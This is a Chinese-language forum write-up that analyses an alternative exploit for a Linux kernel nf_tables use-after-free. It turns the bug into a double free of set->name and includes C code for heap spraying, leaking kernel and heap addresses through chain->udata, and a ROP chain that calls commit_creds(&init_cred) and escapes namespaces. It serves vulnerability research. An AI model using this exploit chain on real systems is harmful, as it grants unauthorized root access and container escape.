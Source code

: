 这是对前文的补充，增加一种漏洞利用方案的分析，前文地址：

```c
https://forum.butian.net/share/2719
```

前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地址读写。

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

本文的思路则是利用 NFT\_MSG\_DELSET 来使用 UAF 的 set，实现 set-&gt;name 的 double free.

```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
    int i;
    if (WARN_ON(set->use > 0))
        return;

    for (i = 0; i < set->num_exprs; i++)
        nft_expr_destroy(ctx, set->exprs[i]);

    set->ops->destroy(set);
    nft_set_catchall_destroy(ctx, set);
    kfree(set->name); // set->name double free
    kvfree(set);
}

static void nft_commit_release(struct nft_trans *trans)
{
    switch (trans->msg_type) {
    case NFT_MSG_DELSET:
        nft_set_destroy(&trans->ctx, nft_trans_set(trans));
        break;
```

具体的步骤如下：

1. 创建 匿名 set （pwn\_lookup\_set）
2. 创建 rule 其中包含一个 lookup expr，该 expr 引用 pwn\_lookup\_set
3. 下发 netlink 批处理请求，批处理中有两个请求：NFT\_MSG\_DELRULE、NFT\_MSG\_DELSET
4. nft\_commit\_release 处理 NFT\_MSG\_DELRULE 删除 rule 和 lookup expr，同时会释放 pwn\_lookup\_set
5. nft\_commit\_release 处理 NFT\_MSG\_DELSET 时就会&lt;span style="font-weight: bold;" data-type="strong"&gt;引用已经释放的 pwn\_lookup\_set，尝试再次释放 se&lt;/span&gt;t.

在 4-5 之间使用另一个 set （race\_set）占位，内核执行完 5 后， race\_set 和 race\_set-&gt;name 的内存就会被释放，漏洞就转换为 race\_set 的 UAF

​​​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-8d63d6540d1faa412b6458fdb6ffd3583027d62b.png)​​​

控制 race\_set 的 name 长度可以获取 dyn-kmalloc-256 的 UAF，堆喷 race\_set 控制 name 的代码如下

```c
    for (int spray = 0; spray != 0x20; ++ spray) {
        char *set_name;
        asprintf(&set_name, "race_set_%0200hx", spray);  // 分配 209 大小的 set_name
        pwn_create_set(batch, seq++, set_name, spray, NFT_SET_ANONYMOUS, sizeof(uaf_set_key), set_desc_size, 0, 0);
    }
```

为了获取方便的内存读写能力，使用 chain-&gt;udata 占位 set-&gt;name，然后释放 set 就能实现 chain-&gt;udata 的 uaf，分配 udata 的代码如下：

```c
static int nf_tables_addchain(struct nft_ctx *ctx, u8 family, u8 genmask,
                  u8 policy, u32 flags,
                  struct netlink_ext_ack *extack)
    ...

if (nla[NFTA_CHAIN_USERDATA]) {
        chain->udata = nla_memdup(nla[NFTA_CHAIN_USERDATA], GFP_KERNEL_ACCOUNT);    // [4]
        if (chain->udata == NULL) {
            err = -ENOMEM;
            goto err_destroy_chain;
        }
        chain->udlen = nla_len(nla[NFTA_CHAIN_USERDATA]);
    }
```

堆喷 chain-&gt;udata 占位的相关代码：

```c
    for(int i = 0 ; i < 0x20; i++){
        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);
        pwn_create_leak_chain(batch, seq++, chain_name);
    }
```

​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-ecd21b43d642b54fbb83a3e941ef674b9346d78a.png)​

之后通过 NFT\_MSG\_GETCHAIN 就能读取 chain-&gt;udata 的数据，找一个有指针的对象占位 udata，就能泄露内核地址，这边使用的是 nft\_rule 结构体：

​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-973fcdd3f8ca832bdbad7a4e399bb99914791ea6.png)​

rule 结构中的优点如下：

- list 指针指向堆喷的相邻 rule，通过它可以泄露相邻堆块的地址，然后结合堆喷可以在相应地址上伪造数据。
- rule 里面会内嵌 expr， expr 里面的 ops 指针保存了 KO 的地址，可以用来计算 gadget 的地址
- rule 结构体占用的内存大小用户态可以控制

‍

rule 占位后通过 NFT\_MSG\_GETCHAIN 通过 chain-&gt;udata 读出对象的数据，泄露相关地址：

```c
        struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
            mnl_batch_buffer,
            NFT_MSG_GETCHAIN,
            NFPROTO_INET,
            NLM_F_ACK,
            seq
        );

        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);

        nftnl_chain_set_str(chain, NFTNL_CHAIN_NAME, chain_name);
        nftnl_chain_set_str(chain, NFTNL_CHAIN_TABLE, "testfirewall");
        nftnl_chain_nlmsg_build_payload(nlh, chain);
        nftnl_chain_free(chain);

        if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
            err(1, "Cannot into mnl_socket_sendto()");
        }

        memset(mnl_batch_buffer, 0, sizeof(mnl_batch_buffer));

        mnl_socket_recvfrom(nl, mnl_batch_buffer, mnl_batch_limit);

        nft_counter_ops =  *(unsigned long*) &mnl_batch_buffer[0x74];
        kbase = nft_counter_ops - NFT_COUNTER_OPS;
        heap_addr =  *(unsigned long*) &mnl_batch_buffer[0x64];
        victim_rule_handle = *(unsigned long*) &mnl_batch_buffer[0x6c] & 0xffff;
```

‍

泄露出堆地址和内核代码地址后，再利用 chain-&gt;udata 来伪造 rule 结构和 nft\_counter expr

​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-4875eeaaf054a3d4143f00c15ce4b17ef809932d.png)​

最后 NFT\_MSG\_DELRULE 触发 `expr->ops->deactivate`​ 的调用进入 ROP

```c
void make_payload_rop(uint64_t* data){
    int i = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = kbase + PUSH_RAX_POP_RSP;       // expr->ops->deactivate()

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    data[i++] = kbase + VFORK;
    data[i++] = kbase + DELAY;
}
```

‍

‍

&lt;span style="font-weight: bold;" data-type="strong"&gt;总结&lt;/span&gt;

struct rule 这种结构体中同时存在链表指针、内核镜像/ko地址 的对象是用于地址泄露非常理想的对象，可以同时泄露出堆地址和代码段地址，一般堆地址可能还可以通过内核逻辑进行占位从而控制数据，实现在内核特定地址中布置数据的功能，这个能力对于伪造内核对象来说是非常重要的功能。

‍

对于桌面端内核漏洞 (ubuntu 有 ns 权限) 利用而言，netlink 里面的这些对象可以很方便的辅助漏洞利用。

‍

&lt;span style="font-weight: bold;" data-type="strong"&gt;参考&lt;/span&gt;

1. [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233_mitigation/docs/exploit.md)

‍
